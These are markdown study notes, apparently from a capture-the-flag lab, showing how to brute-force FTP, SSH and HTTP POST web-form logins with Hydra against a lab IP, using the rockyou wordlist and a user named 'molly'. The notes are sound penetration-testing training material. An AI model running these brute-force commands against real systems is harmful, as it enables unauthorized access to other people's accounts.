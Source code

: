 Password cracking with hydra 

## ssh 

Hydra Commands

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:

`hydra -l user -P passlist.txt ftp://10.10.125.84
`

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).
SSH


`hydra -l <username> -P <full path to pass> 10.10.125.84 -t 4 ssh`


|Option|Description|
|---|---|
|`-l`|specifies the (SSH) username for login|
|`-P`|indicates a list of passwords|
|`-t`|sets the number of threads to spawn|


`hydra -l <username> -P <full path to pass> 10.10.125.84 -t 4 ssh`




## webform 

|Option|Description|
|---|---|
|`-l`|the username for (web form) login|
|`-P`|the password list to use|
|`http-post-form`|the type of the form is POST|
|`<path>`|the login page URL, for example, `login.php`|
|`<login_credentials>`|the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|`<invalid_response>`|part of the response when the login fails|
|`-V`|verbose output for every attempt|


`hydra -l <username> -P <wordlist> <IP>  http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

`hydra -l molly  -P /usr/share/wordlists/rockyou.txt 10.10.125.84 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
`
